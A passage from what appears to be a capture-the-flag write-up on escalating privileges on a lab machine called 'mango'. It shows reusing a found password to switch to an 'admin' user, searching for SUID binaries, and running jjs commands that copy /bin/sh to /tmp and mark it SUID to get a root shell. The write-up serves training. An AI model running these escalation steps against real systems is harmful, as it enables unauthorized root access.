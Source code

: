 1. Always try ever password we have in other users
2. Never, ever trust 100% in output of any tool

So after run **linpeas** and lookup for passwords and other paths to get a root shell, I realize that I have one password and there is a user named ```admin```  . Sou let try:

```bash
mango@mango:~$
mango@mango:~$ su - admin
Password:
$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
```

```bash
admin@mango:/$ find / -perm -4000 2> /dev/null
/bin/fusermount
/bin/mount
/bin/umount
/bin/su
/bin/ping
--------------------------SNIP---------------------------------------------------------
/usr/bin/newgidmap
/usr/bin/run-mailcap
--------------------------SNIP---------------------------------------------------------
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
admin@mango:/
```

 According to [GTFOBins](#reference-links)  the ``` /usr/bin/run-mailcap ``` and ``` jjs``` can be used to get a shell root. Lets do that. We execute ```jjs``` and inside that we run this to commands : The first one will copy ```sh```  to ```/tmp``` and the second one will give **suid** to binary.  Fell free if want to try a reverse shell:

```java
Java.type('java.lang.Runtime').getRuntime().exec('cp /bin/sh /tmp/sh').waitFor()
Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /tmp/sh').waitFor()
```

```bash
admin@mango:/$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('cp /bin/sh /tmp/sh').waitFor()
0
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /tmp/sh').waitFor()
```



```bash
admin@mango:/tmp$ /tmp/sh -p
# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
# ls /root/
root.txt
#
```
